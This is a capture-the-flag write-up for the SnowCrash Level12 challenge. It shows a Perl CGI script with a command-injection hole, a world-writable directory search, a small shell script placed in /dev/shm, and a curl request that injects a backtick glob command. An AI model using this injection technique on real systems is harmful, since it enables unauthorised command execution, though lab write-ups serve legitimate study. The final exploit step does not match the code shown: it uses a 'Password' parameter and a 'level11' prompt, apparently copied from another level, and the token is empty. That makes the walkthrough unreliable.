 # SnowCrash Level12

Lets go ahead and see what we have here.
```
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

Same as the level before :

It's like an RCE(remote code execution).
But if you pay attention to the regex, any lowercase characters passed will become uppercase.
And for the second regex anything that is passed after spaces will be deleted.
So the only way to use this is through a file that's execute a command.
And since we can't use filenames we have to do a "/*/*".
/tmp doesn't have the right permissions.
let's look arround for a bit to find a folder that has the write permissions for public.
Using this command :
```
level11@SnowCrash:~$ find / -writable 2>/dev/null | grep -v proc
/dev/vboxuser
/dev/log
/dev/shm
/dev/char/10:56
/dev/char/5:0
/dev/char/5:2
/dev/char/10:200
/dev/char/10:229
/dev/char/1:5
/dev/char/1:9
/dev/char/1:8
/dev/char/1:3
/dev/char/1:7
/dev/stderr
/dev/stdout
/dev/stdin
/dev/fd
/dev/pts/0
/dev/net/tun
/dev/ptmx
/dev/fuse
/dev/tty
/dev/urandom
/dev/random
/dev/full
/dev/zero
/dev/null
/run/acpid.socket
/run/dbus/system_bus_socket
/run/shm
/run/lock
/tmp
/var/crash
/var/lib/php5
/var/lock
/var/tmp
/rofs/dev/urandom
/rofs/var/lock
```

Can't use the first 2 so I used the 3rd one.
```
level11@SnowCrash:~$ cat /dev/shm/EXPLOIT
#!/bin/sh

getflag > /tmp/flaghh
```

Then :
```
level11@SnowCrash:~$ curl 'localhost:5151/?Password=`/*/*/EXPLOIT`'
Password: Erf nope..
level11@SnowCrash:~$ cat /tmp/flaghh
Check flag.Here is your token : 
```